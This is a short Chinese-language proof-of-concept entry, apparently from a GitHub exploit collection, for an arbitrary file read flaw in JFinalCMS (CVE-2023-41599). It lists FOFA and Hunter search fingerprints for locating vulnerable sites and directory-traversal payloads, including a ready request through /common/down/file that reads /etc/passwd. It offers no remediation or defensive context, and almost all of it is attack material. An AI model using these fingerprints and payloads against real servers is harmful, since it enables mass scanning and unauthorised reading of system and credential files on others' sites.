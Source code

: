 # JFinalCMS 任意文件读取漏洞(CVE-2023-41599)

## JFinalCMS 任意文件读取漏洞(CVE-2023-41599)


## 特征
```
fofa:
body="content=\"JreCms"

hunter:
web.body="content=\"JreCms"
```
## POC
```
Windows: /../../../../../../../../../test.txt
Linux:	/../../../../../../../../../etc/passwd

/common/down/file?filekey=/../../../../../../../../../etc/passwd
```


## 漏洞分析
http://www.so1lupus.ltd/2023/08/28/Directory-traversal-in-JFinalCMS/

